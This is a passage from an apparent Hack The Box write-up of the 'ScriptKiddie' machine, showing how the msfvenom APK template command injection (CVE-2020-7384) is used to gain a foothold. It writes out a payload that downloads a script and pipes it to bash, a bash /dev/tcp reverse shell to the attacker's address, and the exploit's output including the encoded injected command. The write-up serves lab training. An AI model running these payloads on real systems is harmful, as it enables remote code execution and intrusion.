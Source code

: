 However for the current target the *debug shell* was not enabled.

Current web application **features depended** on different **external tools** (nmap, msfvenom and searchsploit), one of which vulnerable to **APK template command injection**. 

![Pasted image 20210421122525.png](../../zzz_res/attachments/Pasted_image_20210421122525.png)

## Foothold

The version of msfvenom used by the web application was vulnerable to **APK template command injection** (CVE-2020-7384). Metasploit msfvenom framework handles APK files in a way that **allows for a malicious user to craft and publish a file that would execute arbitrary commands** on a victim’s machine.

Because the web site **allowed to upload different files used as template by msfvenom**, this was a solid path to follow (since no msfvenom version was obtained earlier).

The PoC used to craft the malicious APK was the following: [Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/49491)

The payload was then changed to **download and execute a reverse shell** on the victim machine:

```python
...
# Change me
payload = 'wget -O - 10.10.14.14/revshell.sh | bash'
...
```

Second stage payload downloaded and executed by the initial one:

```bash
bash -i >& /dev/tcp/10.10.14.14/443 0>&1
```

Generated the malicious apk file and hosted the second stage payload:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ python3 49491.py
[+] Manufacturing evil apkfile
Payload: wget -O - 10.10.14.14/revshell.sh | bash
-dname: CN='|echo d2dldCAtTyAtIDEwLjEwLjE0LjE0L3JldnNoZWxsLnNoIHwgYmFzaA== | base64 -d | sh #

  adding: empty (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmps70hg8mz/evil.apk
```